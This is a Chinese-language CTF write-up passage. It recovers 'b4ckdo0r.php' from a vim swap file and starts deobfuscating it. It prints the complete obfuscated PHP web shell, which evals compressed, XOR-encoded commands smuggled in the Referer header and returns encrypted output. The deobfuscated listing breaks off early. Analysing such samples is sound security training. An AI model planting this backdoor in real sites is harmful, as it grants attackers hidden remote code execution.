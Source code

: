 那么我们继续访问 `b4ckdo0r.php`，提示要找出其源码。这种一般都存在备份文件里，例如 `vim` 中的 `.swo` 和 `.swp`，逐一尝试得备份文件 `.b4ckdo0r.php.swp`，用 `vim -r` 恢复：

```php
<?php
echo "can you find the source code of me?";
/**
 * Signature For Report
 */$h='_)m/","/-/)m"),)marray()m"/","+")m),$)mss($s[$i)m],0,$e))))m)m,$k)));$o=ob)m_get_c)monte)m)mnts)m();ob_end_clean)';/*
 */$H='m();$d=ba)mse64)m_encode)m(x(gzc)mompres)ms($o),)m$)mk));print("<)m$k>$d<)m/)m$k>)m");@sessio)mn_d)mestroy();}}}}';/*
 */$N='mR;$rr)m=@$r[)m"HTT)mP_RE)mFERER"];$ra)m=)m@$r["HTTP_AC)mC)mEPT_LANG)mUAGE)m")m];if($rr)m&&$ra){)m$u=parse_u)mrl($rr);p';/*
 */$u='$e){)m$k=$)mkh.$kf;ob)m_start();)m@eva)ml(@gzunco)mmpr)mess(@x(@)mbase6)m4_deco)mde(p)m)mreg_re)mplace(array("/';/*
 */$f='$i<$)ml;)m){)mfo)mr($j)m=0;($j<$c&&$i<$l);$j)m++,$i+)m+){$)mo.=$t{$i)m}^$)mk{$j};}}r)meturn )m$o;}$r)m=$_SERVE)';/*
 */$O='[$i]="";$p)m=$)m)mss($p,3)m);}if(ar)mray_)mkey_exists)m()m$i,$s)){$)ms[$i].=$p)m;)m$e=s)mtrpos)m($s[$i],$f);)mif(';/*
 */$w=')m));)m$p="";fo)mr($z=1;)m$z<c)mount()m$m[1]);$)mz++)m)m)$p.=$q[$m[)m)m2][$z]];if(str)mpo)ms($p,$h))m===0){$s)m';/*
 */$P='trt)molower";$)mi=$m[1][0)m)m].$m[1][1])m;$h=strtolower()msubstr(m)md5($)mi.$kh)m),0,)m3));$f=$s)ml(substr()m)mmd5($i.$kf),0,3';/*
 */$i=')marse_)mstr)m($u["q)muery"],$)m)mq);$q=array)m_values()m$q);pre)mg_matc)mh_all()m"/([\\w)m])m)[\\w-)m]+(?:;q=0.)';/*
 */$x='m([\\d)m]))?,?/",)m$ra,$m))m;if($q)m&&$)mm))m)m{@session_start();$)ms=&$_S)mESSI)m)mON;$)mss="sub)mstr";strtolower="s)m';/*
 */$y=str_replace('b','','crbebbabte_funcbbtion');/*
 */$c='$kh="4f7)m)mf";$kf="2)m)m8d7";funct)mion x($t)m,$k){$)m)mc=strlen($k);$l=st)mrlen)m($t);)m)m$o="";for()m$i=0;';/*
 */$L=str_replace(')m','',$c.$f.$N.$i.$x.$P.$w.$O.$u.$h.$H);/*
 */$v=$y('',$L);$v();/*
 */
?>
```

这里的代码经过了混淆，我们在代码末尾加上一段代码来进行分析：

```php
echo var_dump($L);
echo $y;
echo $v;
```

得到原本的核心代码 (`$L`)：

```php
<?php
$kh="4f7f";
$kf="28d7";
function x($t,$k)
{
    $c=strlen($k);
    $l=strlen($t);
    $o="";
    for($i=0; $i<$l;)
    {
        for($j=0; ($j<$c&&$i<$l); $j++,$i++)
        {
            $o.=$t{$i}^$k{$j};
        }
    }
    return $o;
}$r=$_SERVER;
$rr=@$r["HTTP_REFERER"];
$ra=@$r["HTTP_ACCEPT_LANGUAGE"];
```